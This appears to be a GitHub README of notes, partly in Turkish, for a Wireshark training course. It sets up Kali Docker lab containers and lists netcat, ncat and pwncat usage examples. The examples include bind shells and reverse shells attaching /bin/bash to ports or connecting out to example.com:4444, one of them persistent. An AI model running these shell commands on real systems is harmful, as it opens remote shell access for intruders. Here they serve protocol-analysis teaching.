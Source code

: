 # NCAT

Use it in wireshark training

##  Introduction

Sniffing, tracing and protocol analysis kursundaki örnekleri netcat ile zenginleştirmek için notlar aldım.

netcat için farklı versiyonlar var. Kali ile gelen versiyon traditional versiyon. Biz _**[ncat](https://nmap.org/ncat/)**_ versiyonunu kullanacağız. nmap için tekrar güncellenmiş. Ayrıca bir _**openbsd**_ versiyonu var. Birde _**[pwncat](https://pwncat.org)**_ versiyonu var.

## Preparing the environment (old)

Two kali docker images running on docker desktop on two Macbook Pro's were used.The dockerfile used to build these images is [Dockerfile-kali](./../Moved/dockerfiles/Dockerfile-kali).

```bash
docker build ./ -f Dockerfile-kali
```

| Image | Description |
| ------ | ----------- |
| kali-rolling-updated | Kali headless+large manually build with the command **docker commit d3c823bbd38c bbmorten/kali-rolling-updated** |
| kali-rolling-updated:v4 | Kali headless+large manually build with the command **docker commit -c "EXPOSE 5900" 3291958fccfa bbmorten/kali-rolling-updated:v4** |
| kali-rolling-updated:v5 | Kali headless+large manually build with the command **docker commit -c "EXPOSE 5900-5901" 3291958fccfa bbmorten/kali-rolling-updated:v5** |
| kali-rolling-updated:v6 | Kali headless+large manually build with the command **docker commit --change "ENV USER=root" --change='CMD ["sh","-c","vncserver :0 -geometry 2048x1280 -depth 16 -pixelformat rgb565"]' -c "EXPOSE 5900-5910" 2e0ab961edd5 bbmorten/kali-rolling-updated:v7** |

v7 olmadı. Execute edip çıkıyor. v5 ile devam.

## Preparing the environment (New)

Use the following docker-compose file

```yaml
services:
  kali1:
    image: bbmorten/kali-rolling-updated:v5
    container_name: kali1
    networks:
      kali_net1:
        ipv4_address: 172.16.238.10
    expose:
      - "5900"
      - "5901"
    ports:
      - "25900:5900"
      - "25901:5901"
    tty: true
    stdin_open: true
    privileged: true

  kali2:
    image: bbmorten/kali-rolling-updated:v5
    container_name: kali2
    networks:
      kali_net2:
        ipv4_address: 172.16.239.10
    expose:
      - "5900"
      - "5901"
    ports:
      - "25910:5900"
      - "25911:5901"
    tty: true
    stdin_open: true
    privileged: true

  middlehost:
    image: ubuntu:latest
    container_name: middlehost
    networks:
      kali_net1:
        ipv4_address: 172.16.238.20
      kali_net2:
        ipv4_address: 172.16.239.20
    tty: true
    stdin_open: true
    privileged: true

networks:
  kali_net1:
    driver: bridge
    ipam:
      config:
        - subnet: 172.16.238.0/24
  kali_net2:
    driver: bridge
    ipam:
      config:
        - subnet: 172.16.239.0/24

```

## Kali Desktop

### Links

- [Kali Desktop 1](https://dog.wtf/tech/run-kali-in-docker-and-install-desktop-environment-and-vnc/)
- [Kali Desktop 2](https://hub.docker.com/r/lukaszlach/kali-desktop/)

### Kali Desktop'a VNC ile bağlanmak için

```bash

apt-get install kali-desktop-xfce
vncpasswd
export USER=root
tightvncserver :0 -geometry 2048x1280 -depth 16 -pixelformat rgb565

```

To kill and restart again the VNC server:

```bash
tightvncserver -kill :0
```

### Kali Desktop'a web browser ile bağlanmak için

```bash
apt-get install net-tools
apt-get install novnc
#/usr/share/novnc/utils/launch.sh --listen 5901 --vnc localhost:5900
novnc_proxy --vnc localhost:5901 --listen localhost:5900
http://localhost:25901/vnc.html?host=192.168.65.1&port=25901
```

##  Usage examples

### TCP Bind shell

Default TCP bind shell listening on :4444 which behaves exactly as nc.

```bash
pwncat -l -e '/bin/bash' 4444
```

The following TCP bind shell will re-accept new clients as soon as a client has disconnected

```bash
pwncat -l -e '/bin/bash' 4444 -k
```

### TCP Reverse shell

Default TCP reverse shell connecting to example.com:4444 which behaves exactly as nc.

```shell
pwncat -e '/bin/bash' example.com 4444
```

The following is a Ctrl+c proof TCP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

```shell
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1
```

Use simply

```bash
pwncat 192.168.68.107 4444
```

### Redirecting output or enabling shell access

Bind to TCP port 8081 and attach /bin/bash for the world to access freely.

```bash
ncat --exec "/bin/bash" -l 8081 --keep-open
```

### Redirecting port 8082 to port 80

Redirect TCP port 8082 on the local machine to host on port 80.

```bash
ncat --sh-exec "ncat example.org 80" -l 8080 --keep-open
```

### Limiting the number of connections and access

Bind a shell to TCP port 8081, limit access to hosts on a local network, and limit the maximum number of simultaneous connections to 3.

```bash
ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open
```
